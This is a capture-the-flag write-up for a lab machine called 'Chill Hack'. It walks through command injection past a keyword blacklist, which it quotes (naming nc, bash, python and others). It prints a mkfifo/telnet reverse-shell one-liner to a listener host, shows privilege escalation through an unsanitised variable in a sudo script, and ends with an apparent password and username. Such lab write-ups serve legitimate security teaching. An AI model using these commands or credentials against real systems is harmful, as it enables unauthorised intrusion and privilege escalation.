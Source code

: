 # Chill Hack
![chill.thm](./imgs/chill.thm.png)

We got FTP anonymous. And this is what I got there in file `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
<hr>

I ran `ffuf` and it found a page called `secret` I went there and found an input. I tried `whoami` and that worked but for example `ls` did not. Then I did `whoami;ls` and it worked. `cat index.html` didn't. `whoami;cat index.html` looked like worked but browser interpreted php code immediately so I added base64 filter.
```
whoami;cat index.html | base64
```
Then decoded the result and got the `index.php` file.<br>
Here is the line that prevents us from getting a reverse-shell:
```
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

I set up `nc` listener and used this command to get a reverse-shell:
```
TF=$(mktemp -u);mkfifo $TF && telnet 10.2.116.12 4444 0<$TF | /bin/sh 1>$TF
```
if we do `sudo -l` we can see that we can run `/home/apaar/.helpline.sh` we privileges of user `apaar`. When I read the scrip I found an interesting line:
```
$msg 2>/dev/null
```
That is direct call of a variable and the line before that one I set the value of the variable, so theoretically I should be able to do something cool. Therefore:
```
sudo -u apaar .helpline.sh
... talk with: bla
... message: /bin/bash
```
And this is how I got apaar's shell.

!d0ntKn0wmYp@ssw0rd
anurodh